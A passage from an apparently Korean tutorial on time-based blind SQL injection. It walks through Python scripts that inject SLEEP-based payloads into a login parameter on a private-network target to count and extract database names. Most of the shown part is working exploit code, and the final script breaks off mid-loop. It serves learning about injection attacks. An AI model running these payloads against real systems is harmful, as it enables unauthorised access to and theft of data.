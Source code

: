 
결과는 다음과 같다.

	DATABASE : test

DBMS의 모든 데이터베이스 이름을 확인해보자.

먼저 COUNT를 이용하여 데이터베이스의 수를 확인하자.

SELECT의 이중쿼리의 경우 출력결과가 1개로 나와야 하며 괄호를 이용하여 감싸준다.

```py
for i in range(100):
    QUERY       = requests.utils.quote(f'\' OR IF((SELECT COUNT(SCHEMA_NAME) FROM information_schema.SCHEMATA)={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    START_TIME  = time.time()
    REQUEST     = requests.get(url=URL)
    END_TIME    = time.time()
    if END_TIME - START_TIME > SLEEP_TIME:
        RESULT_LENGTH = i
        break
print(f'Number of databases : {RESULT_LENGTH}')
```

다음으로 LIMIT을 이용하여 하나 씩 데이터베이스 이름의 문자열 길이를 확인하자.

```py
QUERY       = requests.utils.quote(f'\' OR IF(LENGTH((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1))={j},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

다시 SUBSTR로 문자열을 하나씩 확인한다.

```py
QUERY   = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1),{j+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

다음의 Full Code로 모든 데이터베이스의 이름을 확인해보자.

```py
import requests
import string
import time

TARGET          = 'http://192.168.0.58/index.php'
SLEEP_TIME      = 0.5
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'\' OR IF((SELECT COUNT(SCHEMA_NAME) FROM information_schema.SCHEMATA)={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    START_TIME  = time.time()
    REQUEST     = requests.get(url=URL)
    END_TIME    = time.time()
    if END_TIME - START_TIME > SLEEP_TIME:
        RESULT_LENGTH = i
        break
print(f'Number of databases : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    DATABASE_NAME_LENGTH    = 0
    DATABASE_NAME           = ''
    for j in range(100):
        QUERY       = requests.utils.quote(f'\' OR IF(LENGTH((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1))={j},SLEEP({SLEEP_TIME}),SLEEP(0))#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        START_TIME  = time.time()
```